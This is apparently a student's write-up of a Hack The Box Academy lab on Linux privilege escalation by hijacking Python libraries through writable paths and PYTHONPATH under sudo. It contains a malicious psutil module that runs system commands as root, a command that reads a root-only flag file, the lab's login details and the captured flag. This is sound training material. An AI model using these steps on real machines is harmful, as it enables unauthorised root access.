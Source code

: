Python libraries can be hijacked via the following ways:
- wrong write permissions. i.e., the SUID bit is set for a file or other resource
- library path
- PYTHONPATH environment variable

### Library Path Listing

The order in which Python imports `modules` from are based on a priority system, meaning that paths higher on the list take priority over ones lower on the list. Executing the below command will show the order of modules imported by Python:

```shell-session
python3 -c 'import sys; print("\n".join(sys.path))'
```
```shell-session
/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

> [!NOTE] This method requires two pre-requisites:
>1. ==The module that is imported by the script is located under one of the lower priority paths listed via the PYTHONPATH variable.==
>2. ==We must have write permissions to one of the paths having a higher priority on the list.==

View a programs default install location:
```
pip3 show psutil

...SNIP...
Location: /usr/local/lib/python3.8/dist-packages

```

The above shows that psutil is installed at `/usr/local/lib/python3.8/dist-packages`. See if you have write access to the python3.8 directory. 

```
ls -la /usr/lib/python3.8

total 4916
drwxr-xrwx 30 root root  20480 Dec 14 16:26 .
```

Confirming you do, this satisfies the first criteria of having write permissions to one of the higher priority paths. The `PYTHONPATH` showed the path `/usr/lib/python3.8` is higher on the list than `/usr/local/lib/python3.8/dist-packages` where `psutils` is installed.

```
python3 -c 'import sys; print("\n".join(sys.path))'

shell-session
/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

Solution: Take advantage of this misconfiguration by creating your own `psutils` module containing your own malicious `virtual_memory()` function in the `/usr/lib/python3.8`

> [!NOTE] In a previous example, the mem_status script, which used the virtual_memory() function, was found to be writeable to all users. I will recreate this in a file below called psutil.py. This file must have all the same parameters, functions and name as the imported psutil.py.

```
#!/usr/bin/env python3

import os

def virtual_memory():
    os.system('id')
```

### Privilege Escalation via Hijacking Python Library Path
```
sudo /usr/bin/python3 mem_status.py

uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
  File "mem_status.py", line 4, in <module>
    available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total
AttributeError: 'NoneType' object has no attribute 'available' 
```
### PYTHONPATH 

`PYTHONPATH` is an environment variable that indicates what directory (or directories) Python can search for modules to import.

Assume you are allowed to run `/usr/bin/python3` under the trusted permissions of `sudo` and are therefore allowed to set environment variables for use with this binary by the `SETENV`
```shell-session
sudo -l 

Matching Defaults entries for htb-student on ACADEMY-LPENIX:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ACADEMY-LPENIX:
   (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

Using the `/usr/bin/python3` binary, we can effectively set any environment variables under the context of our running program.

```shell-session
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
...SNIP...
```

# Questions

IP
```
10.129.205.114
```

USERNAME
```
htb-student
```

PASSWD
```
HTB_@cademy_stdnt!
```

SSH
```
ssh htb-student@10.129.205.114
```

Although it's the same as the examples in the module, proceed as if you have no information.

### Enumeration

**Finding writeable files in the htb-student's home folder**
```
htb-student@ubuntu:~$ find /home/htb-student -type f -perm -04000 -ls 2>/dev/null
3724      4 -rwSrwxr-x   1 root     root          192 May 19  2023 /home/htb-student/mem_status.py
```

The file `mem_status.py` has the SUID bit set. We can also read the contents and execute the script.

Viewing the file, I see it's being called by psutil which is imported. psutil is also calling the function `virtual_memory()` 
```
#!/usr/bin/env python3
import psutil

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```

Find the default location of psutil: ==/usr/local/lib/python3.8/dist-packages==
```
htb-student@ubuntu:~$ pip3 show psutil
Name: psutil
Version: 5.9.5
Summary: Cross-platform lib for process and system monitoring in Python.
Home-page: https://github.com/giampaolo/psutil
Author: Giampaolo Rodola
Author-email: g.rodola@gmail.com
License: BSD-3-Clause
Location: /usr/local/lib/python3.8/dist-packages
Requires: 
Required-by: 
htb-student@ubuntu:~$ 
```

The the __init__.py function appears to be writeable by our user, `htb-student`
```
htb-student@ubuntu:~$ ls -la /usr/local/lib/python3.8/dist-packages/psutil
total 568
drwxr-sr-x 4 root        staff   4096 Jun  7  2023 .
drwxrwsr-x 6 root        staff   4096 Jun  5  2023 ..
-rw-r--r-- 1 root        staff  29181 May 19  2023 _common.py
-rw-r--r-- 1 root        staff  15025 May 19  2023 _compat.py
-rw-r--r-- 1 htb-student staff  87657 Jun  8  2023 __init__.py
-rw-r--r-- 1 root        staff  18665 May 19  2023 _psaix.py
-rw-r--r-- 1 root        staff  31769 May 19  2023 _psbsd.py
-rw-r--r-- 1 root        staff  86913 May 19  2023 _pslinux.py
-rw-r--r-- 1 root        staff  16275 May 19  2023 _psosx.py
-rw-r--r-- 1 root        staff   8245 May 19  2023 _psposix.py
-rw-r--r-- 1 root        staff  25486 May 19  2023 _pssunos.py
-rwxr-xr-x 1 root        staff 107400 May 19  2023 _psutil_linux.abi3.so
-rwxr-xr-x 1 root        staff  71008 May 19  2023 _psutil_posix.abi3.so
-rw-r--r-- 1 root        staff  37425 May 19  2023 _pswindows.py
drwxr-sr-x 2 root        staff   4096 Jun  5  2023 __pycache__
drwxr-sr-x 3 root        staff   4096 Jun  5  2023 tests
htb-student@ubuntu:~$ 
```

The `virtual_memory()` function is found on line 1920. Here you will place the following inside the function:
```
import os
os.system('cat /root/flag.txt')
```

Execute and you will get the root flagt:
```
htb-student@ubuntu:~$ sudo /usr/bin/python3 /home/htb-student/mem_status.py
HTB{3xpl0i7iNG_Py7h0n_lI8R4ry_HIjiNX}
HTB{3xpl0i7iNG_Py7h0n_lI8R4ry_HIjiNX}
Available memory: 88.78%
```



